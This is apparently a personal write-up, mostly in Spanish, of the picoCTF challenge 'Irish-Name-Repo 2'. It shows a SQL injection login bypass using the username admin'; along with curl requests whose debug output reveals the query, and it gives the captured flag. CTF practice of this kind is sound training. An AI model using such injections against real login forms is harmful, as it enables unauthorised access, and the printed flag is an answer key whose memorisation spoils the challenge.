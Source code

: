 # Irish-Name-Repo 2

## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Solución
```bash
### Log In

Username:
admin';
Password:
hola

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}

davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin&password=admin&debug=1"
<pre>username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
</pre><h1>Login failed.</h1>davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=admin&debug=1"
<pre>username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>
```
## Notas adicionales

## Referencias